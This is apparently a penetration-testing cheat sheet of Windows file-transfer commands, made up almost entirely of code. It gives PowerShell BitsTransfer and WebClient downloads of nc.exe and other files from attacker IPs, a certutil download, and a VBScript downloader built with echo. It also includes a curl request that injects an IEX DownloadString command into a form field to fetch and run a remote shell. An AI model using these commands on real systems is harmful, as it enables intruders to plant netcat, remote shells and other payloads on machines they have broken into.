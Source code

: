 ```
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
```










```
# use single quotes!
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

Example:
```
curl -X POST --data 'Archive=git%3bIEX+(New-Object+System.Net.Webclient).DownloadString("http%3a//192.168.45.238/shell.pHP")' http://192.168.245.189:8000/archive
```










### CMD
```
certutil -urlcache -f http://[IP]/[FILENAME] [DEST FILENAME]

```




### VBScript
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```
